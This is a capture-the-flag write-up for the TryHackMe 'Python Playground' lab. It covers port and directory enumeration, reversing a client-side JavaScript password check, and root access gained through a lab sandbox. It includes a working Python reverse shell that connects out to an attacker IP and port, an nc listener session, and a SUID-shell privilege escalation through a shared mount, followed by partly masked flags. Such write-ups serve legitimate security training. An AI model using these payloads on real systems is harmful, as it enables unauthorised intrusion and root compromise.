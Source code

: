 # Python Playground

Be creative!

[Python Playground](https://tryhackme.com/room/pythonplayground)

## Chủ đề của

- Network Enumeration
- Web Enumeration
- Web Poking
- Python Scripting (Decoder)
- Misconfigured Binaries

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Hack it!

Jump in and grab those flags! They can all be found in the usual places (/home/someuser and /root).

```
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ sudo nmap -A -sS -sC -sV -O 10.10.251.33
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-18 13:51 CEST
Nmap scan report for 10.10.251.33
Host is up (0.038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/18%OT=22%CT=1%CU=39766%PV=Y%DS=2%DC=T%G=Y%TM=5F8C2C
OS:59%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   37.95 ms 10.8.0.1
2   38.07 ms 10.10.251.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.13 seconds
```

[http://10.10.251.33/](http://10.10.251.33/)

[http://10.10.251.33/login.html](http://10.10.251.33/login.html)

[http://10.10.251.33/signup.html](http://10.10.251.33/signup.html)

```
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ gobuster dir -u http://10.10.251.33 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.251.33
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html
[+] Timeout:        10s
===============================================================
2020/10/18 13:54:29 Starting gobuster
===============================================================
/admin.html (Status: 200)
/index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
===============================================================
2020/10/18 13:55:05 Finished
===============================================================
```

[http://10.10.251.33/admin.html](http://10.10.251.33/admin.html)

[view-source:http://10.10.251.33/admin.html](view-source:http://10.10.251.33/admin.html)

```html
<script>
  // I suck at server side code, luckily I know how to make things secure without it - Connor

  function string_to_int_array(str) {
    const intArr = [];

    for (let i = 0; i < str.length; i++) {
      const charcode = str.charCodeAt(i);

      const partA = Math.floor(charcode / 26);
      const partB = charcode % 26;

      intArr.push(partA);
      intArr.push(partB);
    }

    return intArr;
  }

  function int_array_to_text(int_array) {
    let txt = "";

    for (let i = 0; i < int_array.length; i++) {
      txt += String.fromCharCode(97 + int_array[i]);
    }

    return txt;
  }

  document.forms[0].onsubmit = function (e) {
    e.preventDefault();

    if (document.getElementById("username").value !== "connor") {
      document.getElementById("fail").style.display = "";
      return false;
    }

    const chosenPass = document.getElementById("inputPassword").value;

    const hash = int_array_to_text(
      string_to_int_array(int_array_to_text(string_to_int_array(chosenPass)))
    );

    if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu") {
      window.location = "super-secret-admin-testing-panel.html";
    } else {
      document.getElementById("fail").style.display = "";
    }
    return false;
  };
</script>
```

[http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)

```py
def text_to_unicode(string):
    uni=[]
    for char in string:
         a=ord(char)
         a -= 97
         uni.append(str(a))
    return uni

def unicode_to_text(string):
    out=""
    for char in range(0,len(string),2):
         a = int(string[char])
         b = int(string[char +1])
         temp = a * 26
         temp += b
         out += chr(temp)
    return out

if __name__ == "__main__":
     hash="dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
     stri1 = text_to_unicode(hash)
     stri2 = unicode_to_text(stri1)
     stri3 = text_to_unicode(stri2)
     password = unicode_to_text(stri3)
     print(password)
```

`spaghetti1245`

```py
subprocess = __import__('subprocess')
os = __import__('os')
socket =  __import__('socket')

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.251.33] 44732
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# script -qc /bin/bash /dev/null
root@playgroundweb:~/app# ^Z
[1]+  Stopped                 nc -lnvp 9001
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ stty raw -echo
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ nc -lnvp 9001

root@playgroundweb:~/app# export TERM=screen
root@playgroundweb:~/app# cd /root
root@playgroundweb:~# ls
app  flag1.txt
root@playgroundweb:~# cat flag1.txt
THM{V0N318*****7e0b5cf043975e3c104a458a8d4f6f2f}
root@playgroundweb:~#
```

```
bibo318@parrot:~/CTFs/tryhackme/Python Playground$ python3 getConnorPW.py
Connor's password is: spaghetti1245
```

```
connor@pythonplayground:~$ ls -la
total 36
drwxr-xr-x 4 connor connor 4096 May 16 06:05 .
drwxr-xr-x 3 root   root   4096 May 11 22:10 ..
-rw-r--r-- 1 connor connor  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 connor connor 3789 May 11 22:16 .bashrc
drwx------ 2 connor connor 4096 May 11 22:15 .cache
-rw-rw-r-- 1 connor connor   38 May 16 02:40 flag2.txt
drwx------ 3 connor connor 4096 May 11 22:15 .gnupg
-rw-r--r-- 1 connor connor  807 Apr  4  2018 .profile
-rw-rw-r-- 1 connor connor   40 May 11 22:19 .vimrc
connor@pythonplayground:~$ cat flag2.txt
THM{V0N318*****69a36d6f9da10d23ca0dbfdf6e691ec5}
```

```
root@playgroundweb:~# cp /bin/sh /mnt/log
root@playgroundweb:~# chmod +s /mnt/log/sh
root@playgroundweb:~# ls -l /mnt/log/sh
-rwsr-sr-x 1 root root 129816 Oct 18 12:13 /mnt/log/sh
root@playgroundweb:~#
```

```
connor@pythonplayground:~$ /var/log/sh -p
# cd root
/var/log/sh: 1: cd: can't cd to root
# cd /root/
# ls
flag3.txt
# cat flag3.txt
THM{V0N318*****be3adc69c25ad14eb79da4eb57925ad1}
```

1. What is flag 1?

`THM{V0N318*****7e0b5cf043975e3c104a458a8d4f6f2f12**123:))}`

2. What is flag 2?

`THM{V0N318*****69a36d6f9da10d23ca0dbfdf6e691ec512**123:))}`

3. What is flag 3?

`THM{V0N318*****be3adc69c25ad14eb79da4eb57925ad112**123:))}`
